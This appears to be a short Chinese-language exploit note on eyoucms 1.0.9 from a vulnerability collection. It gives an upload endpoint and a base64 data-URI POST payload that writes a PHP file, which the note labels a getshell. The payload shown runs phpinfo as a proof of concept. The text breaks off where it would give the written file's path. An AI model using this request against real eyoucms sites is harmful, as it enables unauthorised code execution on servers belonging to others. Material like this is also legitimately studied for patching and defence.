


### eyoucms（易优）

```
版本信息：1.0.9
```

#### 任意文件写入Getshell

漏洞路径

```
/index.php/api/Uploadify/preview
```

POST内容：<?php phpinfo();  的base64编码

```
data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==
```



写入的文件路径为




